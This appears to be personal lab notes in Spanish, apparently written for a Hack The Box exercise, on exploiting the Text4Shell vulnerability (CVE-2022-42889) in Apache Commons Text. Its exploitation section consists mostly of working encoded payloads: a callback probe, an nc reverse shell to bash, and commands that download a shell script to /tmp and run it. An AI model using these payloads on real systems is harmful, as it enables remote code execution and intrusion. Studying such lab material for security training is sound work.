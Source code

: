 
## DESCRIPTION

![[Pasted image 20230606212934.png]]

#### Mas información
* https://bell-sw.com/blog/cve-2022-42889-a-critical-vulnerability-in-apache-commons-text-library/
* https://nvd.nist.gov/vuln/detail/CVE-2022-42889


## EXPLOITATION

### OPTION 1: EJEMPLO

Necesitamos encontrar un campo donde podamos añadir texto


![[Pasted image 20230606212952.png]]
![[Pasted image 20230606212956.png]]
1º Prueba utliziar: ${url:UTF-8:http://192.168.45.212/test.php}

Comprobamos que nos llegan los paquetes

![[Pasted image 20230606213014.png]]

2º prueba ver si podemos ejecutar comandos (como ping o wget)

![[Pasted image 20230606213019.png]]

![[Pasted image 20230606213023.png]]


3º Pasa crear una reverse shell: hemos probado con varias pero nos daban problemas, como estas

http://192.168.62.174/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%27nc%20192.168.62.161%20443%20-e%20%2Fbin%2Fbash%27%29%7D


![[Pasted image 20230606213031.png]]


Vamos a crear una shell .sh la subimos y la ejecutamos:



txt4shell

%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%22%77%67%65%74%20%31%39%32%2e%31%36%38%2e%34%35%2e%32%32%38%2f%73%68%65%6c%6c%2e%73%68%20%2d%4f%20%2f%74%6d%70%2f%73%68%65%6c%6c%32%2e%73%68%22%29%7D 

![[Pasted image 20230606213037.png]]


![[Pasted image 20230606213043.png]]

%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%22%62%61%73%68%20%2f%74%6d%70%2f%73%68%65%6c%6c%32%2e%73%68%22%29%7D


![[Pasted image 20230606213050.png]]



## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 
